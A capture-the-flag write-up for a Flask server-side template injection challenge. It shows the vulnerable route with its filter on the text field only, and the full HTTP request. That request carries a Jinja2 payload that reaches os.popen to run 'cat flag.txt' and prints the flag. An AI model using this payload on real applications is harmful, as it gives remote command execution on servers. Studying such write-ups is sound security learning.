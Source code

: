 # Flask SSTI
This was a really fun challenge, the first thing i try here was to check if the application was vulnerable to a server side template injection by submitting **{{7*7}}** in the username field and it's worked. Okay now how could we read the flag ? 

But let's how the application check our input 

```python
@app.route("/create_playlist", methods=["POST"])
def post_playlist():
    try:
        username = request.form["username"]
        text = request.form["text"]
        if len(text) > 10_000:
            return "Too much!", 406
        if "{{" in text or "}}" in text:
            return "Nice try!", 406
        text = [line.split(",") for line in text.splitlines()]
        text = [line[:4] + ["?"] * (4 - min(len(line), 4)) for line in text]
        filled = render_template("playlist.html", username=username, songs=text)
        this_id = str(uuid.uuid4())
        with open(f"templates/uploads/{this_id}.html", "w") as f:
            f.write(filled)
        return render_template("created_playlist.html", uuid_val=this_id), 200
    except Exception as e:
        print(e)
        return "Internal server error", 500
```
Let's break this down

The username parameter is not really check but the text yes. The application has a filter that prevents the use of {{ and }}, which are commonly used in such attacks.

## Attacking the application
Now that we valide the vulnerablity on the application we can look for the payload to use in order to retrieve the flag.
[I found this super article while trying different payload](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

Here's my final request:

```http
POST /create_playlist HTTP/2
Host: music-checkout-fc3cc523de905e37.tjc.tf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Origin: https://music-checkout-fc3cc523de905e37.tjc.tf
Referer: https://music-checkout-fc3cc523de905e37.tjc.tf/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Te: trailers

username=%7B%7Brequest.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27cat+flag.txt%27%29.read%28%29%7D%7D&text=hellld
```
`payload:{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`
![alt text](solved.png)
Et voilà tjctf{such_quirky_taste_818602f2}